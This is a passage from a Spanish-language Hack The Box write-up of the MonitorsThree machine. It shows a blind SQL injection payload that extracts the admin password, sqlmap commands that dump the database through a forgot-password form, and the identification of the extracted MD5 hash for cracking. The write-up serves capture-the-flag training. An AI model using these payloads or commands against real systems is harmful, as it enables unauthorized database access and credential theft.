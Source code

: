 ```sql
admin' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='admin')='a'-- -
```

Tambien se puede utilizar SQLmap para explotar la vulnerabilidad.

```terminal
/home/kali/Documents/htb/machines/monitorsthree:-$ sqlmap -u "http://10.10.11.30/forgot_password.php" --level 5 --risk 3 --batch --current-user admin -D MySQL

/home/kali/Documents/htb/machines/monitorsthree:-$ sqlmap -r monitors.req -dbms=mysql --dump
```

El hash extraído corresponde al algoritmo MD5.

```terminal
/home/kali/Documents/htb/machines/monitorsthree:-$ hashcat --show '31a181c8372e3afc59dab863430610e8'
   # | Name                                            | Category
=====+=================================================+==============================
   0 | MD5                                             | Raw Hash
```

<https://crackstation.net/>

![](assets/img/htb-writeup-monitorsthree/monitorsthree2_12.png)

---
## Foothold
